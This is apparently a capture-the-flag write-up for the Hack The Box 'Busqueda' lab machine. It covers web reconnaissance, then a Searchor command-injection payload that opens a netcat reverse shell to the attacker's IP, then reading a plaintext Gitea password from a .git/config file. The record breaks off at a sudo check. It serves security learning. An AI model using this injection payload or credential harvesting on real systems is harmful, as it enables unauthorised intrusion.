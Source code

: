 #### 80/tcp Http

```console
$ whatweb http://t
http://t [302 Found] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.208], RedirectLocation[http://searcher.htb/], Title[302 Found]
http://searcher.htb/ [200 OK] Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

Added `searcher.htb` to `/etc/hosts`.

The `query` parameter chokes on single-ticks:

```console
$ curl -X POST -d "engine=Bing" -d "query=a'+'b" http://searcher.htb/search
```

I thought this might work but it doesn't:

```console
$ curl -X POST -d "engine=Bing" -d "query=a'.upper()+'b" http://searcher.htb/search
# No result.
```

## RCE

The web application self-identifies that it's using [Searchor](https://github.com/ArjunSharda/Searchor), which has [a command-injection vulnerability](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection):

```console
$ curl -X POST -d "engine=Bing" -d "query=%27%29%2B+str%28__import__%28%27os%27%29.system%28%27busybox+nc+10.10.14.12+443+-e+bash%27%29%29%23" http://searcher.htb/search
```

```console
svc@busqueda:/var/www/app$ id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
...

svc@busqueda:/var/www/app$ cat ~/user.txt
ce1786...
```

## PE

Using a previously discovered password in `/var/www/app/.git/config` I'm able to authenticate via password as the `svc` user and see some Sudo privileges:

```console
svc@busqueda:/var/www/app$ cat .git/config
[core]
repositoryformatversion = 0
filemode = true
bare = false
logallrefupdates = true
[remote "origin"]
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
remote = origin
merge = refs/heads/main
svc@busqueda:/var/www/app$ su - root
Password:
su: Authentication failure
svc@busqueda:/var/www/app$ sudo -l
[sudo] password for svc:
```